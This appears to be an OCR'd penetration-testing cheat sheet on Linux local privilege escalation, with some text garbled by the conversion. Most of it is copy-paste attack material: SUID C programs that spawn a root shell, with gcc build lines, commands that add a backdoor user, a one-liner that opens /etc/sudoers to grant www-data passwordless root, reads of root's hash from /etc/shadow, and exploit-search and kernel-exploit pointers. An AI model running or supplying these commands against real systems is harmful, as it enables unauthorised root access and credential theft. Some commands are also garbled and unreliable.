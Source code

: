 Run a command as a user other than root
sudo -u waldo /usr/bin/vim /etc/apache2/sites-available/000-default.conf

Add a user or change a password
/usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor
echo thePassword | passwd haxzor --stdin

Local Privilege Escalation Exploit in Linux

SUID (Set owner User ID up on execution)
Often SUID C binary files are required to spawn a shell as a superuser, you can update the UID / GID and shell as required.

below are some quick copy and paste examples for various shells:

SUID C Shell for /bin/bash

int main(void){
setresuid(0, 0, 0);
system("/bin/bash");
}

SUID C Shell for /bin/sh

int main(void){
setresuid(0, 0, 0);
system("/bin/sh");
}

Building the SUID Shell binary
gcc -o suid suid.c
For 32 bit:
gcc -m32 -o suid suid.c

Create and compile an SUID from a limited shell (no file transfer)
echo "int main(void){\nsetgid(0); setuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c
gcc privsc.c -o privsc

Add users to Root SUDO group with no password requirement
echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

SearchSploit
searchsploit –uncsearchsploit apache 2.2
searchsploit "Linux Kernel"
searchsploit linux 2.6 | grep -i ubuntu | grep local
searchsploit slmail

Kernel Exploit Suggestions for Kernel Version 3.0.0
./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0

Precompiled Linux Kernel Exploits - Super handy if GCC is not installed on the target machine!

https://www.kernel-exploits.com/

Collect root password
cat /etc/shadow |grep root

Find and display the proof.txt or flag.txt - LOOT! `cat ``find / -name proof.txt -print```
